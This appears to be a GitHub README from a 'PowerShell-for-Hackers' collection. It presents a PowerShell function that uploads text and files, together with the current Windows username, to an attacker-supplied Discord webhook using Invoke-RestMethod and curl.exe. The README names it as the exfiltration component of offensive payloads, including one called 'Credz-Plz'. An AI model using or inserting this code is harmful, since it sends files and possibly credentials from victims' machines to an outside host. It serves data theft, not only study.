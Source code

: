 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#The-Function">The Function</a></li>
    <li><a href="#Examples">Examples</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# Discord-Upload

<p align="center">
      <a href="https://youtu.be/Zs-1j42ySNU">
        <img src=https://github.com/I-Am-Jakoby/PowerShell-for-Hackers/raw/main/Assets/images/thumbnail.png width="300" alt="C#" />
      </a>
      <br>YouTube Tutorial
</p>

## Description

This function is used to upload either text or other files to your discord via a webhook 

## The Functions


### [Upload-Discord] 

This function is used to upload files to your discord. 

Just replace `$hookurl` with YOUR discord webhook

Now you can use either of the  `$text` or `$file` parameter or both 

```
function Upload-Discord {

[CmdletBinding()]
param (
    [parameter(Position=0,Mandatory=$False)]
    [string]$file,
    [parameter(Position=1,Mandatory=$False)]
    [string]$text 
)

$hookurl = 'YOUR-DISCORD-WEBHOOK'

$Body = @{
  'username' = $env:username
  'content' = $text
}

if (-not ([string]::IsNullOrEmpty($text))){
Invoke-RestMethod -ContentType 'Application/Json' -Uri $hookurl  -Method Post -Body ($Body | ConvertTo-Json)};

if (-not ([string]::IsNullOrEmpty($file))){curl.exe -F "file1=@$file" $hookurl}
}
```

----------------------------------------------------------------------------------------------------------------------------------
### [Syntax]
```
Upload-Discord -file "file.txt" -text "this is a text file"

or

Upload-Discord -file "image.jpg" -text "this is an iamge"
```


<p align="right">(<a href="#top">back to top</a>)</p>


## Examples 

Listed below are payloads that can use one of these functions:

[ADV-Recon](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-ADV-Recon)

[ET-Phone-Home](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-ET-Phone-Home)

[Credz-Plz](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-Credz-Plz)

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<h2 align="center">📱 My Socials 📱</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://youtube.com/c/IamJakoby?sub_confirmation=1">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/youtube-svgrepo-com.svg width="48" height="48" alt="C#" />
      </a>
      <br>YouTube
    </td>
    <td align="center" width="96">
      <a href="https://twitter.com/I_Am_Jakoby">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/twitter.png width="48" height="48" alt="Python" />
      </a>
      <br>Twitter
    </td>
    <td align="center" width="96">
      <a href="https://www.instagram.com/i_am_jakoby/">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/insta.png width="48" height="48" alt="Golang" />
      </a>
      <br>Instagram
    </td>
    <td align="center" width="96">
      <a href="https://discord.gg/MYYER2ZcJF">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/discord-v2-svgrepo-com.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>Discord
    </td>
  </tr>
</table>
</div>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [UberGuidoZ](https://github.com/UberGuidoZ)

***

[HOME-PAGE](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers)

<p align="right">(<a href="#top">back to top</a>)</p>
